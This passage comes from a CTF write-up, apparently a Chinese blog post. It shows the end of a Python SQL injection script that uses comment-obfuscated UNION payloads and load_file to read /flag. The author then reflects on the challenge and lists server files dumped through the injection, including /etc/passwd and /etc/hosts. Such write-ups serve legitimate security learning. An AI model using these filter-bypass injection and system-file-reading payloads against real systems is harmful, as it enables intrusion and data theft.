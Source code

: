 ```python
    payload = "-1\"union select 1,(select `2` from (select 1,2 union select * from f1agdas limit 1,1)a),3\"".replace(" ", "/**/")
    res = req(payload)
    print(res)
# flag.columns==========>flag.txt

def data():
    payload = "-1\"union select 1,hex(load_file(0x2f666c6167)),3\"".replace(" ", "/**/")
    res = req(payload)
    print(res)

if __name__ == "__main__":
    # database()
    # table()
    # columns()
    data()
```



---

以下是本人的碎碎念和反思，师傅们可以跳过惹

经验不足，最后还是没能出这简单题。一方面也是平台的问题，实在太卡了:(

数据库里写的`flag.txt`，最后却在根目录`/flag`。尝试过十六进制`/flag`读取，可能是因为太卡了，没成功就没再试了，以为就是`flag.txt`。盲猜有人拿到注入题直接sqlmap开始跑，导致服务器负载太大，或者说运维去三亚了2333

还尝试了读取一堆无用的东西，以为和 [[网鼎杯 2018]Comment](/article/Buuoj-WEB-Write-up/#Comment) 

```shell
# @@datadir
# /var/lib/mysql/

# @@basedir
# /usr/

# /etc/host
# 127.0.0.1	localhost
# ::1	localhost ip6-localhost ip6-loopback
# fe00::0	ip6-localnet
# ff00::0	ip6-mcastprefix
# ff02::1	ip6-allnodes
# ff02::2	ip6-allrouters
# 192.168.0.114	9fa7a3d75b4f

# /etc/passwd
# root:x:0:0:root:/root:/bin/bash
# daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
# bin:x:2:2:bin:/bin:/usr/sbin/nologin
# sys:x:3:3:sys:/dev:/usr/sbin/nologin
# sync:x:4:65534:sync:/bin:/bin/sync
# games:x:5:60:games:/usr/games:/usr/sbin/nologin
# man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
# lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
# mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
# news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
# uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
# proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
# www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
# backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
# list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
# irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
# gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
# nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
# _apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```